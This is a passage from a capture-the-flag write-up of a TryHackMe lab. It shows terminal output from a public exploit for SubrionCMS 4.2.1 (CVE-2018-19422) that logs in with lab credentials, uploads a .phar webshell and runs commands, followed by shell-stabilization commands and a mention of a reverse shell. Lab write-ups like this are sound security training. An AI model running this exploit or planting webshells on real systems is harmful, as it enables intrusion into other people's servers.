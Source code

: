 ```
┌──(mdn0x㉿mdn0xonKali)-[~/THM/CHALLENGES/Easy/Tech_Support1]
└─$ python3 49876.py -h
Usage: 49876.py [options]

Options:
  -h, --help            show this help message and exit
  -u URL, --url=URL     Base target uri http://target/panel
  -l USER, --user=USER  User credential to login
  -p PASSW, --passw=PASSW
                        Password credential to login
                                                                                                               
┌──(mdn0x㉿mdn0xonKali)-[~/THM/CHALLENGES/Easy/Tech_Support1]
└─$ python3 49876.py -u http://10.10.1.80/subrion/panel/ -l admin -p Scam2021
[+] SubrionCMS 4.2.1 - File Upload Bypass to RCE - CVE-2018-19422 

[+] Trying to connect to: http://10.10.1.80/subrion/panel/
[+] Success!
^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B[+] Got CSRF token: Y3RE2CooiWrYBhmUaPXfooexcSlbNJVVgrE0OFEC
[+] Trying to log in...
[+] Login Successful!

[+] Generating random name for Webshell...
[+] Generated webshell name: myyxxvnjmgumqza

[+] Trying to Upload Webshell..
[+] Upload Success... Webshell path: http://10.10.1.80/subrion/panel/uploads/myyxxvnjmgumqza.phar 

$ whoami

$ ls
myyxxvnjmgumqza.phar

```
### Shell Stabilization 

We can perform [Shell Stabilization](../../3%20-%20Tags/Hacking%20Concepts/Shell%20Stabilization.md) :

```
$ export TERM=xterm

$ python3 -c 'import pty;pty.spawn("/bin/bash")'

^Z
stty raw -echo;fg
             reset
```

This seems blocking the entire system so we need some other way, i tried get a shell uploading a php_reverse_shell from pentestmonkey modified in a .phar file (read python exploit) :
